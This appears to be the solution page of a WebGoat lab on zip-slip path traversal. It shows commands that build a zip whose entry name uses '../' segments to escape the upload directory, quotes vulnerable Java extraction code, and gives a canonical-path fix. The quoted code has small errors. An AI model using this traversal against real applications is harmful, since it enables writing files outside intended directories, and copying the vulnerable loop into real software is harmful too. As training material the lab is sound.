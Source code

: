 === Solution

First let's create a zip file with an image inside:

[source]
----
curl -o cat.jpg http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip cat.jpg
----

Now let's upload this as our profile image, we can see nothing happens as mentioned in the assignment there is a bug in the software, and the result we see on the screen is:

[source]
----
Zip file extracted successfully, failed to copy image. Please contact our helpdesk.
----

Let's create a zip file which traverses all the way to the top and then back into the given directory in the assignment.

First create the directory structure:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[] http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../..webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Now if we upload this zip file, the assignment will be solved.

=== Why did this work?

In the code the developers used the following fragment:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

The fix is to make sure the resulting file in line 5 resides in the directory you expect. You can use the following method in Java:

[source]
----
File profilePicture = new File(uploadDirectory, e.getName());
String canonicalprofilePicture = profilePicture.getCanonicalPath();

if (!canonicalprofilePicture.startsWith(uploadDirectory + File.separator)) {
  throw new IllegalArgumentException("Entry is placed outside the uploadDirectory")
}
...
----

